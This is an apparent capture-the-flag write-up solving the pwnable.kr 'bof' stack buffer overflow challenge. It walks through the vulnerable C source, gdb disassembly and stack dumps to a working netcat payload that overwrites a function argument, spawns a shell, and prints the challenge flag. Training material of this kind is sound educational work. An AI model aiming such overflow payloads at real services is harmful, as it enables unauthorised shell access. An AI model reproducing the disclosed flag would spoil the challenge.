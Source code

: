# bof

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?


ssh bof@pwnable.kr -p2222 (pw: guest)

- let's check the contents of the directory
```bash
bof@ubuntu:~$ ls -ls
total 24
16 -rwxr-xr-x 1 root bof  15300 Mar 26  2025 bof
 4 -rw-r--r-- 1 root root   342 Mar 26  2025 bof.c
 4 -rw-r--r-- 1 root root    86 Apr  3 16:03 readme
```
```bash
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ cat bof.c
```
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
- when i follow the instructions on the readme:
```bash
bof@ubuntu:~$ nc 0 9000
hdsjfksd
overflow me : Nah..
```
- seems that I need to overflow the buffer somehow and make the input to func 0xcafebebe instead of 0xdeadbeef
- how buffer over flow works:
    - lets take this function for example:
    ```c
    void func(const char* input){
        char buf[8];
        int n = 0x11111111;
        gets(buf);
    }
    ```
    - if we were to input 'AAAAAAAAAAAA', since buf can only hold 8 bytes, it would store the first 8. But what happens to last 4?
    - after running the program with the input we find that suddenly, n=0x41414141
    - 0x41 in ascii == 'A', so that's what happens to the last 4 'A's
    - i copied the bof executable into my local computer since bof runs over nc
    - when I run 'gdb bof' I disassemble both main and func to see how it runs and look for possible breakpoints
    ```bash
        gef➤  disass main
        Dump of assembler code for function main:
        0x0000068a <+0>:     push   ebp
        0x0000068b <+1>:     mov    ebp,esp
        0x0000068d <+3>:     and    esp,0xfffffff0
        0x00000690 <+6>:     sub    esp,0x10
        0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
        0x0000069a <+16>:    call   0x62c <func>
        0x0000069f <+21>:    mov    eax,0x0
        0x000006a4 <+26>:    leave
        0x000006a5 <+27>:    ret
        End of assembler dump.
        gef➤  disass func
        Dump of assembler code for function func:
        0x0000062c <+0>:     push   ebp
        0x0000062d <+1>:     mov    ebp,esp
        0x0000062f <+3>:     sub    esp,0x48
        0x00000632 <+6>:     mov    eax,gs:0x14
        0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
        0x0000063b <+15>:    xor    eax,eax
        0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
        0x00000644 <+24>:    call   0x645 <func+25>
        0x00000649 <+29>:    lea    eax,[ebp-0x2c]
        0x0000064c <+32>:    mov    DWORD PTR [esp],eax
        0x0000064f <+35>:    call   0x650 <func+36>
        0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
        0x0000065b <+47>:    jne    0x66b <func+63>
        0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
        0x00000664 <+56>:    call   0x665 <func+57>
        0x00000669 <+61>:    jmp    0x677 <func+75>
        0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
        0x00000672 <+70>:    call   0x673 <func+71>
        0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
        0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
        0x00000681 <+85>:    je     0x688 <func+92>
        0x00000683 <+87>:    call   0x684 <func+88>
        0x00000688 <+92>:    leave
        0x00000689 <+93>:    ret
        End of assembler dump.
        gef➤  

    ```
    - what stands out to me is the line in func:
    ```bash
    0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
    ```
    - as it corresponds to the line in C:
    ```c
    if(key == 0xcafebabe)
    ```
    - also noting that it is the line right after:
    ```c
    gets(overflowme);       // smash me!
    ```
    - this gives me the idea that we can overflow the buffer to change the variable key from 0xdeadbeef to 0xcafebabe
    - lets put a breakpoint in func+40 where the cmp instruction is used
    - when we break at that line, we will check the address at ebp+0*8
    - for now, when the program prompts us for input, we will type a few "A"s
    ```bash
        gef➤  x/50wx $ebp+0*8
        0xffffcee8:     0xffffcf08      0x5655569f      0xdeadbeef      0x00000000
        0xffffcef8:     0x00000000      0x00000000      0x00000000      0x00000000
        0xffffcf08:     0x00000000      0xf7d8ecc3      0x00000001      0xffffcfc4
        0xffffcf18:     0xffffcfcc      0xffffcf30      0xf7f9ce14      0x5655568a
        0xffffcf28:     0x00000001      0xffffcfc4      0xf7f9ce14      0x565556b0
        0xffffcf38:     0xf7ffcb60      0x00000000      0xb33f7722      0xfd785132
        0xffffcf48:     0x00000000      0x00000000      0x00000000      0xf7ffcb60
        0xffffcf58:     0x00000000      0x79e58300      0xf7ffda60      0xf7d8ec56
        0xffffcf68:     0xf7f9ce14      0xf7d8ed88      0xf7fc7ac4      0x56556ff4
        0xffffcf78:     0x00000001      0x56555530      0x00000000      0xf7fd8390
        0xffffcf88:     0xf7d8ed09      0x56556ff4      0x00000001      0x56555530
        0xffffcf98:     0x00000000      0x56555561      0x5655568a      0x00000001
        0xffffcfa8:     0xffffcfc4      0x565556b0
        gef➤ 
    ```
    - we found 0xdeadbeef, but where are our "A"s?
    ```bash
        gef➤  x/24wx $esp
        0xffffcea0:     0xffffcebc      0xffffd18b      0x00000002      0xffffced8
        0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x41414141
        0xffffcec0:     0x41414141      0x41414141      0x41414141      0x00000041
        0xffffced0:     0x00000000      0x00000000      0xffffffff      0x79e58300
        0xffffcee0:     0xf7fbf400      0x00000000      0xffffcf08      0x5655569f
        0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
        gef➤  
    ```
    - there they are, the 0x41414141's
    - each block is 4 bytes and there are 13 blocks from the start of the "A"s to deadbeef
    - there are 4*13 = 52 bytes before we reach where deadbeef is located on the stack
    - this means that our payload needs to be "A"*52 + '0xcafebabe'
        - remember x86 architecture is little endian
        - so "A"*52 + '0xbebafeca'
    - earlier the readme said that the binary was running at nc 0 9000
        - lets use echo to print out our input to the commandline thru netcat
    ```bash
    (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000
    ```
    - we add the && cat so the program doesn't hang
    ```bash
        bof@ubuntu:~$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000  
        ls -ls
        total 5352
        16 -rwxr-xr-x 1 root root      15300 Apr  3 15:55 bof
        4 -rw-r--r-- 1 root root        372 Apr  3 15:54 bof.c
        4 -r--r----- 1 root bof_pwn      29 Apr  3 15:46 flag
        5324 -rw-r--r-- 1 root root    5445200 Oct  1 07:26 log
        4 -rwx------ 1 root root        768 Apr  3 16:06 super.pl
        cat flag
        Daddy_I_just_pwned_a_buff3r!
    ```